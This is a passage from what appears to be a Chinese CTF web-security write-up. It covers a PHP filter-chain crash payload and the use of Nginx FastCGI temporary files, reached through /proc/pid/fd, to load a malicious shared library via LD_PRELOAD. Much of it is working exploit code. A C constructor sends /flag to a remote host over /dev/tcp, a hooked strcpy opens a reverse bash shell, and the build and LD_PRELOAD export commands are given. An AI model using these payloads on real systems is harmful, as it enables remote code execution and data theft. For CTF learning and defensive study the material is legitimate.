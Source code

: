 ```python
#php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAFAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA 这个也会导致crash
```

先到这里

#### nginx

##### `Nginx的临时文件`和`LD_PRELOAD`加载so

- Nginx的临时文件:

  当 Nginx 接收来自 FastCGI 的响应时，若大小超过限定值(大概32Kb)不适合以内存的形式来存储的时候，一部分就会以临时文件的方式保存到磁盘上。在 `/var/lib/nginx/fastcgi` 下产生临时文件。

- LD_PRELOAD加载so:

  这个可以说是经典问题就不赘述了, 直接给个exp

```c
#include <stdlib.h>
#include <string.h>
__attribute__ ((constructor)) void call ()
{
 unsetenv("LD_PRELOAD");
 char str[65536];
 system("bash -c 'cat /flag' > /dev/tcp/pvs/port");
 system("cat /flag > /var/www/html/flag");
}

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload() {
    //反弹shell
    system("bash -c 'bash -i >& /dev/tcp/ip/port 0>&1'");
}

char *strcpy (char *__restrict __dest, const char *__restrict __src) {
    if (getenv("LD_PRELOAD") == NULL) {
        return 0;
    }
    unsetenv("LD_PRELOAD");
    payload();
}

gcc -shared -fPIC /test/hack.c -o hack.so -ldl
export LD_PRELOAD=/test/hack.so
```

 上面提到当Nginx的fastcgui接收到的响应大小超过32Kb就会在`/var/lib/nginx/fastcgi`产生一个存放相应内容的临时文件, 但其实这个过程可以说是稍纵即逝,文件创建到删除的窗口期根本不足以让我们及时的就行文件加载, 这时候就用到了记录进程信息的文件夹`/proc/pid/fd`。 在Linux上，在一个进程中打开的文件描述符集可以在/proc/PID/fd/路径下访问，其中PID是进程标识符。
